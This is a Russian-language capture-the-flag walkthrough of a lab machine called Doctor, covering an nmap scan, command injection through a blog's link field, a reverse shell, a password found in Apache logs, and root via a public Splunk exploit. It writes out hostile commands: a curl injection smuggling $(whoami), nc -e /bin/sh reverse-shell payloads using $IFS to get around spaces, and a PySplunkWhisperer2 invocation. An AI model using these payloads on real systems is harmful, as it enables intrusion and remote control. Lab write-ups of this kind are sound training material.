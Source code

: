 Дисклеймер.  
Все инструменты описанные в данной статье реальны, находятся в свободном доступе и используются специалистами по Информационной Безопасности для проведения тестирования на проникновение информационных систем компаний и предприятий. Автор статьи не занимается взломом и не поощряет подобных действий, все описанное ниже было выполнено на специально подготовленной для этого виртуальной машине.

Простенькая машина после долгого перерыва…
[[nmap]]

```bash
Nmap scan report for 10.10.10.209

Host is up (0.14s latency).

Not shown: 997 filtered ports

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open http Apache httpd 2.4.41 ((Ubuntu))

|http-server-header: Apache/2.4.41 (Ubuntu)

|http-title: Doctor

8089/tcp open ssl/http Splunkd httpd

| http-robots.txt: 1 disallowed entry

|/

|http-server-header: Splunkd

|http-title: splunkd

| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser

| Not valid before: 2020-09-06T15:57:27

|Not valid after: 2023-09-06T15:57:27

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Поехали. идем смотреть вебчик

МАААКСИМАЛЬНО скучный лендинг какой-то частной клиники… тест весь — рыба, ссылки никуда не ведут, [[gobuster]] интересное не показывает. Но, в контактах указан email с доменным именем в качестве хоста

редактируем **_/etc/hosts_**

заходим и смотрим, форма входа, уже лучше….  
Пробуем дефолтный набор логинов и паролей, ничего не выходит.  
пробуем sql инъекции [[SQLi]]…. не работает  
находим форму сброса пароля, выдает 500 и все тут, сейчас работать с этим, сложно, но посмотрим исходники, csrf_token имеется, тут вряд-ли прокатит, что-то сделать.  
окей, регаем пользователя, admin не дает, зато почта admin работает, а для входа нужна именно она, нда, дохлый номер, окей регаем что-нибудь….  
попадаем в платформу блога, видим возможность смены имени и почты, окей, пробуем все что умеем. Но помогает, пробуем разместить запись с простым текстом, работает, попробуем XSS [[Cross-site scripting]] h1 не работает script тоже, от отчаяния пробовал PHP, неудивительно, что не работает.  
В процессе переписки в вк заметил, что соц. сеть парсит ссылки и вставляет ролики с ютуба с превьюшками и. т. д. А что если передать туда невалидную ссылку, **Link is not correct**, бинго, лучше чем ничего, а если поднять свой вебчик?  
```bash
python -m SimpleHTTPServer  
```
пробуем, заходит, передать бы в запрос команду…  
чем можно создать запрос, очевидный ответ [[curl]].  
**Курнем мануалы…  
а если так,

```bash
nc -lvnp 1234  
curl http://10.10.14.xx/$(whoami)
```

Во, запрос содержит uid 1001(web), кажется у нас есть [[RCE]]

Самый банальный способ создать шелл — [[netcat]]  
простой payload не сработает, пробелы мешают… чем заменить?  
находим в мануалах **$IFS.**

```bash
nc -lvnp 1234  
curl http://10.10.14.xx:8000/$(nc.$IFS-e$IFS'/bin/sh'$IFS'10.10.14.xx'$IFS'1234')
```

А если так?  
Опа, есть шелл от имени web  
погнали  
по стандарту  
**sudo -l?  
**Увы, но не в этот раз, сходим посмотрим на **/home,** очевидно нужен другой юзер, под которым и работает админ.

прогоняем [[linpeas]], видим из интересного логи [[Apache]], скачаем  
смотрим access логи, вспоминаем про страницу восстановления пароля, мб админ использовал, grep -r нам в помощь находим пароль, подойдет?  
**su**

есть, мы можем сдать **user.txt**

остался privesc

[[linpeas]] увы ничего не показывает, попробуем записывать все что попадается,  
в итоге находим, что вся эта куча работает на [[Splunk]]  
гуглим эксплоит  
находим github

```bash
python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.xx --username --password  --payload 'nc.traditional -e/bin/sh '10.10.14.xx' '1234''  
а ну попробуем…  
ROOTED!
```